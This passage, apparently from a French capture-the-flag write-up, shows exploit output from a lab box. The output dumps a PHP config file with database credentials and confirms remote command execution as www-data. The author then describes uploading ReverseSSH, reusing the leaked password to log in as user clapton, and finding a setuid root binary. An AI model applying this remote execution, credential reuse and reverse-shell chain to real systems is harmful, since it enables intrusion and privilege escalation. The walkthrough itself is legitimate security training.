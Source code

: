 ```python
        disable_functions  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,p
cntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_w
ifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_ex
ec,pcntl_getpriority,pcntl_setpriority, 
        open_basedir   no value    no value 
        System V Message based IPC   Wez Furlong 
        System V Semaphores   Tom May 
        System V Shared Memory   Christian Cartus 

[*] Fetching include/base.inc.php 
<?php 
                        // DATABASE CONNECTION INFORMATION 
                        define('DATABASE_HOST', 'localhost');           // Database host 
                        define('DATABASE_NAME', 'microblog');           // Name of the database to be used 
                        define('DATABASE_USERNAME', 'clapton'); // User name for access to database 
                        define('DATABASE_PASSWORD', 'yaraklitepe');     // Password for access to database 
                        define('DB_ENCRYPT_KEY', 'p52plaiqb8');         // Database encryption key 
                        define('DB_PREFIX', 'mb101_');              // Unique prefix of all table names in the database 
                        ?> 

[*] Testing remote execution 
[+] Remote exec is working with system() :) 
Submit your commands, type exit to quit 
> id 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

J'uploade et exécute ReverseSSH sur la machine... Ça ne fonctionne pas, le système est 32 bits. Récupération de la version adéquate et c'est reparti.  

Je remarque un utilisateur *clapton* sur le système. Son mot de passe de session est le même que celui dumpé par l'exploit, je m'y connecte.  

Try again and again and again...
--------------------------------

L’utilisateur a trois fichiers dans son dossier personnel dont un binaire setuid root :  

```plain
-rwsr-xr-x 1 root    root    5150 Sep 22  2015 input 
-rwxr-xr-x 1 root    root     201 May  9  2021 note.txt 
-rw-r--r-- 1 clapton clapton   32 May  9  2021 user.txt
```
